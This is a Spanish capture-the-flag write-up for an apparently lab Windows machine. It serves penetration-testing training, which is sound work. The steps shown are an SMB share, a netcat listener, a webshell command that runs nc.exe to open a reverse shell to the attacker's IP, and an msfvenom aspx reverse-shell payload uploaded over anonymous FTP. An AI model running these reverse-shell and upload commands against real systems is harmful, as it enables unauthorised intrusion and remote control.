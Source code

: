 <p style="text-align: center;">
<img src="/assets/images/devel/05-page3.png">
</p>

Activamos el servicio `smb` con `impacket` para compartir los archivos que tenemos en la carpeta `exploit`.

```bash
sudo impacket-smbserver smbFolder $(pwd)
```

Creamos un listener por el puerto que elegimos.

```bash
rlwrap nc -lvnp 4564
```

En la webshell ingresamos el siguiente comando que nos va a permitir ejecutar `nc.exe` directamente en la máquina víctima y así generar una reverse shell.

```bash
\\10.10.14.15\smbFolder\nc.exe -e cmd 10.10.14.15 4564
```

Finalmente obtenemos acceso a una shell de la máquina victima con el usuario `iis apppool\web`.

<p style="text-align: center;">
<img src="/assets/images/devel/06-page4.png">  
</p> 

## INSTUSION MSFVENOM

Para la siguiente intrusión vamos a crear con `msfvenom` una reverse shell indicando el formato `aspx`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4564 -f aspx -o reverseShell.aspx
```

Cargamos la reverse shell al servidor `ftp`.

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bast1ant1c): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put reverseShell.aspx 
local: reverseShell.aspx remote: reverseShell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2765 bytes sent in 0.00 secs (23.7559 MB/s)
```
